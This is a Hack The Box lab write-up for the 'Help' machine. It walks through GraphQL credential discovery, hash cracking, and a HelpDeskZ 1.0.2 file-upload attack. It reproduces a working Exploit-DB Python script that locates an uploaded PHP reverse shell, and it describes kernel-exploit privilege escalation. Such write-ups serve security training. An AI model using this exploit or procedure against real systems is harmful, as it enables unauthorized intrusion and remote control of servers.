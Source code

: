# Help

## Info
  * IP : 10.10.10.121
  * OS : Linux
  * DIfficulty: Easy/Medium

## System Enumeration

### NMAP
![nmap](boxImages/Help/nmap.png "NMAP")

### Port 80
![port 80](boxImages/Help/port80.png "Port 80")

### Port 3000
![port 3000](boxImages/Help/port3k.png "Port 3000")

nmap shows port 3000 hosts the node.js express framework, loading up port 3000 we see that we need to enter a query.  
A quick google search for "query + nodejs + express" gives us a new keyword "graphql".  

So, we check for graphql by simply typing `/graphql` 

### Finding Credentials

To read and interact with GraphQL properly, I used the JSON decoder of the BurpSuite.  
![Burp Suite](boxImages/Help/credsfound.png "Burp Suite")

The password hash found can be easily cracked using online utilities such as crackstation.  
![Cracked Password](boxImages/Help/crackedpw.png "Cracked Password")

### Support Page

HelpDeskZ is being used for the support API of the website, and since we've already found the credentials, we can easily login.  
![Support Page](boxImages/Help/supportPage.png "Support Page")

![Logged In](boxImages/Help/loggedInHelpDeskz.png "Logged In")

#### Exploitation

Looking for a possible exploit, I found `https://www.exploit-db.com/exploits/40300` to be of use.  

```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

We can upload a reverse shell through the HelpDeskZ portal along with a ticket and use the given python code to find our uploaded shell.  

*Although it can be done without logging in, the login helped me with the timezone matching problem, without which I'd have to edit the exploit.py according to my timezone.*

Since the tickets formed, keep changing with respect to the time, we match our timezone with the timezone of the HelpDeskz portal.  

![TimeServer](boxImages/Help/timezoneServer.png "Time Zone Server Change")

![TimeClient](boxImages/Help/timezoneClient.png "TIme Zone Client Change")

Now, we should upload our shell.  

Using a simple `php-reverse-shell` provided by `pentestmonkey`, I simply changed the required values and uploaded it as a ticket file.  

![uploaded shell](boxImages/Help/uploadingShell.png "Uploading the php shell")

As I submitted my ticket, I received the error `File Not Allowed`, but looking at the source code of HelpDeskz, this error is bogus and the file is still uploaded.  

So, we run the exploit  
![Python Exploit](boxImages/Help/pyexploit.png "PyExploit")  

File found! So we create a listener and open up our shell and voila! We are in
![Listening for Shell](boxImages/Help/listeningForShell.png "Listening for Shell")  

## User Found

![User Found](boxImages/Help/userfound.png "User")

## Privilege Escalation

Enumerating the system, we get the following information  
![PrivEsc 1](boxImages/Help/privesc1.png "Privilege Enumeration")

Searching for a possible exploit on searchsploit  
![SearchSploit](boxImages/Help/searchsploit.png "Searchsploit")

Looking up the kernel exploit and running it on the machine, we get root!  
![Root Gained](boxImages/Help/rootgained.png "Rooted!")

Thank you for reading!
